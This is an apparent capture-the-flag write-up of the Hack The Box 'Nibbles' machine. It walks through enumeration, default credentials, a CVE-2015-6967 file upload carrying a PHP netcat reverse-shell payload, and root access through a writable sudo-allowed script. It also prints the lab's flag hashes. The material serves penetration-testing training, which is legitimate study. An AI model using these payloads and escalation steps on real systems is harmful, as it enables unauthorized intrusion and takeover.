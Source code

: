 # Nibbles  
**OS:** Linux  
**Difficulty:** Easy

---

## Engagement Overview
**Target:** HTB Nibbles  
**Box IP:** 10.10.10.75  
**Local IP:** 10.10.14.7  
**Date:** 07-20-2025

---

### Objectives
- Enumerate services to discover web applications and credentials.
- Exploit an arbitrary file upload vulnerability in Nibbleblog.
- Escalate privileges via misconfigured sudo permissions to obtain root access.

---

## Service Enumeration

### Nmap Results
```
nmap -sV -sC -A 10.10.10.75
```
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

- Web server on port 80 hosted a Nibbleblog CMS.
- Detected Nibbleblog version: **v4.0.3 Codename: Coffee** (2014-04-01)

### Gobuster Results
```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20
```
Key findings:
- `/admin.php` – Admin login page
- `/content/`, `/plugins/`, `/themes/`, `/languages/` – Exposed directories
- `/README`, `/LICENSE.txt`, `/COPYRIGHT.txt` – Info disclosure
- `/install.php`, `/update.php` – Should have been removed after setup

---

## Methodologies

### Initial Access – Arbitrary File Upload

**Vulnerability:**  
- CVE-2015-6967 – Authenticated file upload vulnerability in Nibbleblog 4.0.3  
  [https://www.cve.org/CVERecord?id=CVE-2015-6967](https://www.cve.org/CVERecord?id=CVE-2015-6967)

**Credentials:**
```
Username: admin
Password: nibbles
```

**Payload:**
```php
<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 5454 > /tmp/f"); ?>
```

**Exploit:**
```bash
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

**Result:**
- Reverse shell obtained on port 5454 as web user.

---

## Privilege Escalation

```bash
sudo -l
```

Output:
```
User nibbler may run the following command without password:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Initial attempt to inject reverse shell into `monitor.sh` failed due to syntax issues.

**Working escalation method:**
```bash
echo "bash -i" > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Result:**
- Root shell obtained.
- Accessed `/root/root.txt`.

---

## House Cleaning

- No cleanup required; no persistence or destructive changes made.

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `caafc6db3f2edcfadb67939c0bfc8be7`  
- `root.txt`: `3326a0f327a5b3466a5ca7016471485e`

---

## Tools Utilized

* `nmap`, `gobuster`, `netcat`
* `exploit.py`, `shell.php` (reverse shell payload)
* Python3, Bash

---

## Key Takeaways

* Old CMS versions often contain known exploits like CVE-2015-6967.
* Default credentials (`admin:nibbles`) still work — always try basic credential stuffing.
* Misconfigured `sudo` scripts can offer root access — even a writable `.sh` file is a goldmine.
* If a reverse shell payload fails, test simpler command injection like `bash -i` to reduce syntax errors.
